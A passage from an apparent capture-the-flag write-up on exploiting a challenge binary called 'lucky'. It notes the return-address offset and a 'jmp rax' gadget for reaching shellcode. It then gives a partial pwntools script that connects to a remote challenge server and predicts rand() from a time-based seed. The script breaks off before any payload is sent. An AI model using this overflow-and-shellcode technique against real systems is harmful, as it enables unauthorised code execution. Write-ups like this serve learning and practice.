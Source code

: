 ✅ **rip will be @ offset 72**

Finally, to jump to our shellcode, we’ll use ```jmp rax``` gadget **relying on the knowledge that ```gets()``` return value is the address it wrote into.**

![gadget](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pGTozW4D_YO-XljgKU18QA.png)


![shell](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Nq_gsJrCrNJIWC7_gSL_tg.png)

### Exploit Script ✍️
```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './lucky')

host = args.HOST or '34.65.87.36'
port = int(args.PORT or 8084)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = ''''
b *gift
'''.format(**locals())

# -- Exploit goes here --
import time
import ctypes

libc = ctypes.CDLL("libc.so.6")
current_time = int(time.time())
libc.srand(current_time)
rand_value = libc.rand()
num = rand_value % 1000

io = start()

io.sendlineafter(b"(0-999): ", str(num).encode())

jmp_rax = 0x000000000040111c
log.info(jmp_rax)

# shell = asm(shellcraft.sh())

```